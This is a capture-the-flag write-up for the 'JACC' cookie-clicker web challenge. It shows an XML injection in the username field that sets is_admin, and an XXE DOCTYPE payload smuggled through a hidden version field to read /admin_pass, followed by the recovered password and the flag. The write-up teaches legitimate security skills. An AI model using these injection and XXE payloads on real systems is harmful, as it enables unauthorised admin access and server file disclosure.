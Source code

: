 # JACC - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

Say hello to JACC - Just Another Cookie Clicker 🍪

http://challenges2.hexionteam.com:2002

## Solution

### Login Page

![Image Error](assets/page_login.png)

You start with a login form, viewing the form you can see an hidden `version` value.

### Game Page

![Image Error](assets/page_game.png)

Using [flask-unsign](https://pypi.org/project/flask-unsign/) to decode the session cookie **after logining in as User** we get:

```js
{'cookies': 0, 'lxml': b'PCEtLSBBUEkgVmVyc2lvbjogMS4wLjAgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPlVzZXI8L3VzZXJuYW1lPgogICAgICAgIDxpc19hZG1pbj4wPC9pc19hZG1pbj4KICAgIDwvZGF0YT4KPC9yb290Pgo='}
```

Decoding the base64 we get:

```xml
<!-- API Version: 1.0.0 -->
<root>
    <data>
        <username>User</username>
        <is_admin>0</is_admin>
   </data>
</root>
```

This is interesting cause both `User` and `1.0.0` are user input. Let's try to inject some XML, first let's get is_admin to be 1.

By logging in with `username` as:

`User</username><is_admin>1</is_admin><username>`

We'll see the xml has changed to:

```xml
<!-- API Version: 1.0.0 -->
<root>
    <data>
        <username>Yarin<username>
        <is_admin>1<is_admin>
        <username></username>
        <is_admin>0</is_admin>
    </data>
</root>
```

When the server searches for is_admin it will find our first one and this will allows us to get to the admin panel.

### Admin Login Page

![Image Error](assets/admin_panel_page.png)

In the source code of the page we can see this comment:

```html
<!-- If you are an admin and you forgot the password it's located on the server at /admin_pass-->
```

Alright we need to get the file located at /admin_pass from the server. Now we can use the version from before to add a DOCTYPE and XXE or way to local file inclusion. \
The username is printed in the game as `Good Luck {username}!` we can use this to read our XXE entity.

We'll set `username` to:

`&xxe;</username><username>Hey`

And `version` to:

```xml
--><!DOCTYPE d [<!ENTITY xxe SYSTEM \"file:///admin_pass\">]><!--
```

First we close the comment from the version with `-->` we insert our DOCTYPE with the entity and then resume the comment that will be closed by the server with `<!--` \
This will give us `admin_pass` in the username location:

![Image Error](assets/xxe.png)

Admin Password is `gLTAqe12Z3OufWG7`
Putting the password in the admin panel will send us this png:

![Image Error](assets/flag.png)

Flag: `hexCTF{th3_c00ki3_m0nst3r_at3_my_c00ki3s}`
